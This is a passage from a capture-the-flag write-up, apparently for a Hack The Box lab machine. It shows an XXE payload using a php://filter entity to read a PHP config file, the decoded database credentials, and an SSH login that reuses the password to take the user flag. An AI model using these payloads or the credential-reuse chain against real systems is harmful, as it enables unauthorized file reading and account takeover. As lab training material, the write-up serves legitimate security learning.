   sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
  systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
  development:x:1000:1000:Development:/home/development:/bin/bash
  lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
  usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
  </td>

It works as intended, we have file read!


3. As usual with LFI's we need to find the right file. Scavenging through different known sensitive files gives nothing, so my next
thought was to go through web-files - but we don't know the absolute path..

After some googling I found that you're able to extract files from the folder you are in, using following output:
  <!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>

So with this knowledge we can try and grab 'db.php' that we found previously and hope to find any db creds and password reuse.

MALICIOUS PAYLOAD:
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>TEST CWE</cwe>
		<cvss>10</cvss>
		<reward>1000</reward>
		</bugreport>

As before, base64 encode and then urlencode. Sending the data and we get a reply with:
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=

Decoding it:
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

YES SOME CREDS! From grabbing /etc/passwd earlier we saw that user development was present.

[root:/git/htb/bountyhunter]# ssh development@bountyhunter.htb
development@bountyhunter.htb's password: m19RoAU0hP41A1sTsq6K
  Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
  development@bountyhunter:~$ id && hostname
    uid=1000(development) gid=1000(development) groups=1000(development)
    bountyhunter
  development@bountyhunter:~$ cat user.txt
    d3ff041dcea82a5839bbfa0e7d75a80f
